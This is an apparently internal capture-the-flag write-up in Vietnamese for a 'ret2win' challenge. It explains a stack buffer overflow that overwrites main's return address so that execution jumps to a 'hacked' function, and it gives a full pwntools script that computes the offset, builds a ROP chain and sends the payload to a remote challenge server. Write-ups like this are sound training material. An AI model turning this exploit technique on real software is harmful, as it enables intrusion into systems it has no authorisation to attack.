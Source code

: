 Để khai thác bài này, chúng ta phải khai thác lỗi Buffer Overflow để ghi đè địa chỉ trả về của hàm main bằng địa chỉ của hàm `**hacked**`.

Mình đã viết một mã python để khai thác tự động thử thách này.
Xem và tải nó tại đây: [solve.py](./solve.py)

```python
from pwn import *

exe = "ret2win" # Thay nó bằng đường dẫn tới file ret2win
elf = context.binary = ELF(exe, checksec=False)

def find_eip_offset(payload):
   p = process(exe)
   p.sendlineafter(b"name:\n",payload)
   p.wait()
   return cyclic_find(p.corefile.eip)

# r = process(exe)

# Bỏ comment dòng dưới nếu muốn chạy trên server, đổi địa chỉ IP và port tương ứng
r = remote("61.14.233.78", 10002)

offset = find_eip_offset(cyclic(100))

hackedAdd = elf.symbols.hacked

rop = ROP(elf)
rop.hacked()
payload = flat({
   offset: rop.chain()
})

r.sendlineafter(b"name:\n", payload)
r.interactive()
```

Cách payload này hoạt động và cách giải tay mình sẽ hướng dẫn trong những buổi training tiếp theo.

![Alt text](writeup-vsl-ctf-internal-2023/image30.png)

